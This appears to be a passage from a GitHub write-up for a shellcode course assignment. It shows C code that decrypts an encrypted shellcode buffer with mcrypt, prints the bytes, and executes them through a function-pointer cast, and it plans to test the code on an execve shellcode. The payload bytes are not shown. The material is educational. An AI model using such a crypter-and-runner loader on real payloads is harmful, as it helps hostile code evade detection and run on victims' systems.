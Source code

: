 ```c
	/* Initialize the encryption process with the pass and IV */
	int x = mcrypt_generic_init(id_crypt, password, 16, IV);
	if (x < 0)		                                            // Error Handling
	{
		mcrypt_perror(x);
		printf("\n!! ERROR: %d !!", x);
		return MCRYPT_FAILED;
	}

	/* Encryption of the code[] string */
	x = mdecrypt_generic(id_crypt, code, code_length);
	if ( x < 0)		                                            // Error Handling
	{
		mcrypt_perror(x);
		printf("\n!! ERROR: %d !!", x);
		return MCRYPT_FAILED;
	}

	/* Print the decrypted shellcode */
	printf("\n\nDeCrypted Shellcode:\n\n  ASM Format: \n");

		/* First printed in ASM format */
	for (int i = 0; i < code_length-1; i++) {
		printf("0x%02x,", code[i]);
	}
	printf("0x%02x", code[code_length-1]);	                    // Remove ","

		/* Now printed in C format */
	printf("\n\n  C Format: \n");
	for (int i = 0; i < code_length-1; i++) {
		printf("\\x%02x,", code[i]);
	}
	printf("\\x%02x", code[code_length-1]);                     // Remove last ","

	/* End the mcrypt */
	mcrypt_generic_end(id_crypt);

	printf("\n\n");

	/* Lets run the shellcode */
	int (*ret)() = (int(*)())code;
	ret();
}
```

### Run Everything
---
Let's try that everything works. Let's pick the [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment7/Execve-Stack.nasm), generate it's shellcode, then Crypt it. The crypted shellcode will be placed in the Decrypt process, and once decrypted, executed.
